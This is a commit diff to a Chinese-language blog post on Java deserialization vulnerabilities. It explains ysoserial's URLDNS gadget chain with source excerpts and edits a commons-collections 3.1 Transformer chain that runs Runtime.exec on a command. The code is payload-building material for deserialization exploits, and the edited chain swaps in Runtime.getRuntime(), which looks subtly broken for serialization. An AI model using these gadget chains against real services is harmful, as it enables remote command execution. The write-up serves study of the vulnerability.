

Before and after one commit to alivk353/alivk353.github.io, a Jekyll site: the page built from _posts/2020-09-09-反序列化.md, in a window 1280 px wide. Shown: the part 800-2720 px from the top of the page at 81% size, without its empty margins (231-1048 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
update201026

````diff
--- a/_posts/2020-09-09-反序列化.md
+++ b/_posts/2020-09-09-反序列化.md
@@ -25,8 +25,161 @@ Java的反序列化和PHP的反序列化其实有些类似，都是将一个对
 
 urldns利用链并不能执行命令而是发起一次DNS查询，传递的payload是url，但是在检测反序列化漏洞存在与否很方便
 
-- 不能确定目标服务器上JDK，commons-collections等库的版本，urldns利用链有内置类构造
-- 目标服务器没有回显时，就很方便
+ - 不能确定目标服务器上JDK，commons-collections等库的版本，urldns利用链有内置类构造
+ - 目标服务器没有回显时，就很方便
+
+ysoserial工具就有URLDNS的gadget chain:
+
+```java
+public Object getObject(final String url) throws Exception {
+
+        //Avoid DNS resolution during payload creation
+        //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
+        URLStreamHandler handler = new SilentURLStreamHandler();
+
+        HashMap ht = new HashMap(); // HashMap that will contain the URL
+        URL u = new URL(null, url, handler); // URL to use as the Key
+        ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.
+
+        Reflections.setFieldValue(u, "hashCode", -1);
+        // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
+        //在上述放置期间，将计算并缓存URL的hashCode。这将重置，以便下次将hashCode称为DNS查找时将被触发
+
+        return ht;
+}
+
+```
+
+> 注释中写道 进行hashcode操作时会触发一次DNS请求
+
+ ysoserial源码的URLDNS类的getObject方法返回将要被序列化的类HashMap
+
+将java.net.URl对象作为key，url作为value放入HashMap对象中
+
+ HashMap的readObejct()代码：
+
+ ```java
+    private void readObject(java.io.ObjectInputStream s)
+        throws IOException, ClassNotFoundException {
+        // Read in the threshold (ignored), loadfactor, and any hidden stuff
+        s.defaultReadObject();
+        reinitialize();
+        if (loadFactor <= 0 || Float.isNaN(loadFactor))
+            throw new InvalidObjectException("Illegal load factor: " + loadFactor);
+        s.readInt();                // Read and ignore number of buckets
+        int mappings = s.readInt(); // Read number of mappings (size)
+        if (mappings < 0)
+            throw new InvalidObjectException("Illegal mappings count: " + mappings);
+        else if (mappings > 0) { // (if zero, use defaults)
+            // Size the table using given load factor only if within
+            // range of 0.25...4.0
+            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
+            float fc = (float)mappings / lf + 1.0f;
+            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
+                       DEFAULT_INITIAL_CAPACITY :
+                       (fc >= MAXIMUM_CAPACITY) ?
+                       MAXIMUM_CAPACITY :
+                       tableSizeFor((int)fc));
+            float ft = (float)cap * lf;
+            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
+                         (int)ft : Integer.MAX_VALUE);
+
+            // Check Map.Entry[].class since it's the nearest public type to
+            // what we're actually creating.
+            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
+            @SuppressWarnings({"rawtypes","unchecked"})
+            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
+            table = tab;
+
+            // Read the keys and values, and put the mappings in the HashMap
+            for (int i = 0; i < mappings; i++) {
+                @SuppressWarnings("unchecked")
+                    K key = (K) s.readObject();
+                @SuppressWarnings("unchecked")
+                    V value = (V) s.readObject();
+                putVal(hash(key), key, value, false, false);
+            }
+        }
+    }
+ ```
+
+对放入的key进行hash计算`putVal(hash(key), key, value, false, false);`
+
+```java
+    static final int hash(Object key) {
+        int h;
+        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
+    }
+```
+
+计算hash过程中调用key也就是URL对象的`hashcode()`方法
+
+```java
+    public synchronized int hashCode() {
+        if (hashCode != -1)
+            return hashCode;
+
+        hashCode = handler.hashCode(this);
+        return hashCode;
+    }
+```
+
+触发DNS请求在`handler.hashCode(this)`内，handler是抽象类`URLStreamHandler`的子类
+
+这里需要hashCode为-1是才会触发handler.hashCode()，在序列化生成payload时将url对象put到HashMap时会进行一次hashcode计算
+
+所以需要使用反射在put操作后手动修改url对象的hashCode值为-1
+
+```java
+Class clazz = url.getClass();
+Field f = clazz.getDeclaredField("hashCode");
+f.setAccessible(true);
+f.set(url,-1);
+```
+
+URLStreamHandler类的hashCode方法这里调用`getHostAddress()`触发DNS
+
+```java
+protected int hashCode(URL u) {
+        int h = 0;
+
+        // Generate the protocol part.
+        String protocol = u.getProtocol();
+        if (protocol != null)
+            h += protocol.hashCode();
+
+        // Generate the host part.
+        InetAddress addr = getHostAddress(u);
+        if (addr != null) {
+            h += addr.hashCode();
+        } else {
+            String host = u.getHost();
+            if (host != null)
+                h += host.toLowerCase().hashCode();
+        }
+
+        // Generate the file part.
+        String file = u.getFile();
+        if (file != null)
+            h += file.hashCode();
+
+        // Generate the port part.
+        if (u.getPort() == -1)
+            h += getDefaultPort();
+        else
+            h += u.getPort();
+
+        // Generate the ref part.
+        String ref = u.getRef();
+        if (ref != null)
+            h += ref.hashCode();
+
+        return h;
+    }
+```
+
+
+> ysoserial防止在生成payload是触发请求，所以重写了handle-SilentURLStreamHandler
 
 ## commons-collections-3.1
 
@@ -38,16 +191,9 @@ urldns利用链并不能执行命令而是发起一次DNS查询，传递的paylo
         String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";
 
         Transformer[] transformers = new Transformer[]{
-                new ConstantTransformer(Runtime.class),
-                new InvokerTransformer("getMethod", new Class[]{
-                        String.class, Class[].class}, new Object[]{
-                        "getRuntime", new Class[0]}
-                ),
-                new InvokerTransformer("invoke", new Class[]{
-                        Object.class, Object[].class}, new Object[]{
-                        null, new Object[0]}
-                ),
-                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
+                new ConstantTransformer(Runtime.getRuntime()),
+                new InvokerTransformer("exec", new Class[]{String.class},
+                new Object[]{cmd})
         };
 
         ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
````
